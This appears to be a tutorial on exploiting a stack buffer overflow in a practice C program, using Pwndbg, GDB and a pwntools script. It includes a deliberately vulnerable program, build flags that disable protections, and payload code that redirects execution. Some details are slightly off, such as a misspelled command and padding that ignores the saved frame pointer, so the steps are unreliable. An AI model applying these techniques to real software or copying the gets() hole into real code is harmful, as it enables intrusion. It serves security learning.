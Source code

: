 ## Crafting and Sending Payloads in Buffer Overflow Exploits**
we’ll go through the process of exploiting a buffer overflow vulnerability in a C program using **Pwndbg** for reverse engineering and crafting payloads.
### **Prerequisites**
- **Pwndbg installed**: Install it by following the instructions on the [Pwndbg GitHub](https://github.com/pwndbg/pwndbg).
    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
    ```
- **GDB installed**: Ensure you have GDB installed to use Pwndbg.
- **Basic knowledge of buffer overflows**: This guide assumes you know what buffer overflows are and how they work at a basic level.
- **A target vulnerable program**: This guide will assume the vulnerable program is the same as in the Pwntools example above.

### **1. Analyzing the Vulnerability Using Pwndbg**
#### **Vulnerable Program (vulnerable_program.c)**
This is the same C program used in the Pwntools section. It contains a buffer overflow vulnerability due to the `gets()` function.

```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("You've triggered the secret function!\n");
}

void vulnerable_function() {
    char buffer[64];
    printf("Enter a string: ");
    gets(buffer);  // Vulnerable to buffer overflow
}

int main() {
    vulnerable_function();
    return 0;
}
```

#### **Compiling the Program**
Compile the program with debugging symbols and disable stack protection to make exploitation easier:
```bash
gcc -g -fno-stack-protector -z execstack vulnerable_program.c -o vulnerable_program
```

### **2. Setting Up Pwndbg and GDB**
To start debugging with Pwndbg, run the program inside GDB with the Pwndbg extension enabled:

```bash
gdb ./vulnerable_program
```

This will start GDB with the Pwndbg extension loaded.

### **3. Finding the Buffer Overflow Vulnerability**
In GDB, use Pwndbg to analyze the stack and memory layout:
1. **Disassemble the `vulnerable_function`** to see the buffer and where the return address is stored:
    ```bash
    disasssemble vulnerable_function
    ```
    
    This will show you where the `buffer[64]` is allocated on the stack, and where the return address is.
2. We look for all the functions in the program by running:
```
info functions
```
3. Set our breakpoint to one of these functions
4. **Check the Stack**: Once you know the buffer’s position, you can inspect the stack using Pwndbg’s commands to see where the return address lies relative to the buffer.
    In Pwndbg, use:
    ```bash
    context
    ```
    
    This will display the current state of the stack, registers, and nearby memory in an easy-to-read format. Look for the buffer and the saved return address.
    
5. **Find the address of the `secret_function`**: To redirect the program’s execution to `secret_function`, we need its memory address.
    In GDB, disassemble the `secret_function`:
    ```bash
    disas secret_function
    ```
    
    This will give you the address of `secret_function`, for example `0x080484b6`.
    

### **4. Calculating the Payload**

The goal of the exploit is to:
- **Overflow the buffer** (64 bytes).
- **Overwrite the return address** with the address of `secret_function` (e.g., `0x080484b6`).

#### **Payload Structure**:
- **64 bytes**: Fill the buffer.
- **4 bytes**: Overwrite the saved return address with the address of `secret_function`.


#### **Crafting the Payload in GDB**

Once you have the address of `secret_function`, you can craft your payload. You will need 64 bytes of padding (the size of the buffer) followed by the 4-byte address of `secret_function`.

To construct the payload directly in GDB, use the following:

```bash
python -c "print('A'*64 + '\xb6\x84\x04\x08')" > payload.txt
```

This creates a payload with 64 "A"s followed by the address `0x080484b6` (the address of `secret_function`, written in little-endian format).

### **5. Debugging and Exploiting the Vulnerability**

#### **Step 1: Run the Program and Set a Breakpoint**
In GDB, set a breakpoint at the vulnerable function to stop before the overflow occurs:

```bash
b vulnerable_function
run
```

#### **Step 2: Examine the Stack and Registers**
Once the program breaks, use Pwndbg to examine the stack and the registers:

```bash
context
```

This will give you a comprehensive view of the current function call, including the stack and any useful information about the buffer’s location.

#### **Step 3: Overflow the Buffer**
After gathering information about the buffer and the return address, you can send the payload.
Use the following GDB commands to send the crafted payload:
```bash
r < payload.txt
```

This will start the program and send the payload you crafted, which should overflow the buffer and redirect the execution to `secret_function`.

#### **Step 4: Check for Output**

If everything works, you should see the output from the `secret_function`:
```
You've triggered the secret function!
```

### **6. Automating the Exploit with Python and Pwndbg**
To automate this process, you can use Python in combination with GDB.
Here’s how you can automate the process using Python to send the payload:

```python
from pwn import *

# Set up the process (local)
p = process('./vulnerable_program')

# Address of secret_function (from gdb or objdump)
secret_function_address = p32(0x080484b6)  # Replace with actual address

# Payload: 64 bytes to overflow the buffer + address of secret_function
payload = b"A" * 64 + secret_function_address

# Interact with the process
p.recvuntil("Enter a string: ")  # Wait for the prompt
p.sendline(payload)  # Send the payload

# Receive the output (i.e., the result of triggering the secret function)
output = p.recvall()
print(output.decode())  # Print the output
```

### **7. Using Pwndbg Commands for Reverse Engineering**
- **Inspect registers**:
    ```bash
    info registers
    ```
- **View memory at a specific address**:
    ```bash
    x/32x $esp
    ```
    
- **Dump the entire stack**:
    ```bash
    x/64x $esp
    ```
    
- **View disassembly of a function**:
    ```bash
    disas <function_name>
    ```
    
- **View the context (stack, registers, etc.)**:
    ```bash
    context
    ```
    
- **Check the stack trace**:
    ```bash
    bt
    ```
    